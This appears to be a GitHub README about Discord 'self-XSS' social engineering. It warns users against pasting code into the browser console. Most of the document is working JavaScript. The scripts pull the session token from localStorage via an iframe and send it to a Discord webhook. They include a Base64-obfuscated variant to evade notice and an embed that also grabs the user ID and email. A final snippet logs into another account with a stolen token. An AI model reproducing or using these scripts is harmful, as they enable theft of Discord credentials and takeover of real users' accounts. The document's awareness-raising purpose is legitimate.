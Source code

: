 # Discord Self-XSS
Although Discord repeatedly prints massive warnings on the console, telling people about the potential dangers that pasted unknown code snippets could lead to, most users are unwary, and casually run scripts without understanding what they do.

By convincing a user to paste just a couple lines of code, an attacker could access `localStorage` to copy the Session Token without the user even noticing, using something like the following script:

```JS
/* Without any discernible change, an `iframe`
is created in order to access `localStorage`
through its `contentWindow` property. The users's
token is then copied and `slice` is used to remove
its quotation marks (for aesthetic purposes) */
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
```

This script could be quickly adapted to act as a warning for uncautious users, the simplest way being to *literally* `alert()` them, like this:
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
alert(`Your Discord token is:\n${token}\n\nNever paste any code you don't understand in the console!`);
```

It could just as easily be modified into something malicious, as in this example:
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
  
/* With a simple HTTP Request, your
token could be sent to the attacker
using a Discord Webhook. This does
not cause a CORS error as webhooks
use the same domain as the Discord
website, and are thus treated like
any other request */
fetch("https://discord.com/api/webhooks/123456789012345678/abcdefghijklmnopqrstuvwxyzABCDEFGHIJLKLMNOPQRSTUVWXYZ1234567890abcde", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    content: token,
    embeds: null
  })
});
```

Even with a modification as simple as encoding all mentions of a "token" and the Webhook URL *(which could catch their eye)* to Base64 and decoding them using `atob()` could suffice to trick a naive user, as done in this snippet:
```JS
fetch(atob("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTIzNDU2Nzg5MDEyMzQ1Njc4L2FiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6QUJDREVGR0hJSkxLTE1OT1BRUlNUVVZXWFlaMTIzNDU2Nzg5MGFiY2Rl"),{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({"content":document.body.appendChild(document.createElement("iframe")).contentWindow[atob("bG9jYWxTdG9yYWdl")][atob("dG9rZW4=")].slice(1,-1),"embeds":null})});
```

Any attempt at obfuscation could be susicious to some users, but the great majority wouldn't bat an eye before pasting a code-block, even with escaped characters, generated by something like obfuscator.io.

While accessing `localStorage`, an attacker might as well make use of other cached information *(although i just realized all one would really need is the token)* and create a nice embed for his webhook, as I did with the following script:
```JS
let localStorage = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage;
fetch("YOUR_WEBHOOK_URL", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    content: null,
    embeds: [{
      title: "Successfully Grabbed Token!",
      color: 2067276,
      fields: [{
        name: "User",
        value: `<@!${localStorage.user_id_cache.slice(1,-1)}>`,
        inline: true
      }, {
        name: "Email",
        value: localStorage.email_cache.slice(1,-1),
        inline: true
      }, {
        name: "Token",
        value: localStorage.token.slice(1, -1).replaceAll("-", "-\n")
      }],
      footer: {
        text: "Hacker Pepe v0.0.0",
        icon_url: "https://imgur.com/5Ri5eok.png"
      }
    }],
    username: "Hacker Pepe",
    avatar_url: "https://imgur.com/5Ri5eok.png"
  })
});
```

Regardless of whether or not an attacker sends himself another user's token using a great embed such as the one produced by the above script, allowing someone else access to `localStorage` can let them extract a lot of information about the user, and should never be done.

![Example Embed](/embed.png)

And just like that, an internet stranger could know your token. This is concerning, as by simply opening a new [incognito] tab, opening Discord, and pasting this almost identical script *(ironic...)*, they could set their token to yours and access your account.
```JS
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token=`"YOUR_TOKEN"`;
location.reload();
```

So please never paste any script into your console unless you understand what it does and fully trust the person who sent it to you.
